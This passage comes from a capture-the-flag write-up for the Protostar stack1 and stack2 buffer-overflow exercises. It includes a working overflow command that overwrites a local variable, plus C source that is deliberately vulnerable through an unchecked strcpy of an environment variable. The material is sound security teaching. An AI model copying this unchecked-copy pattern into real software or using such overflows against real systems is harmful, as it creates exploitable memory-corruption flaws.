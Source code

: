 ```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```

As we can see, through the buffer overflow on the stack, we were able to modify
the local variable ```modified``` to a specific value :)

## Stack2

### Description

https://exploit-exercises.com/protostar/stack2/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### Write-up

This challenge is very much like the previous, only this time it introduces the
concept of environment variables.

The challenge retrieves input from the environment variable **GREENIE**, and
then uses ```strcpy``` to copy the input into the buffer.
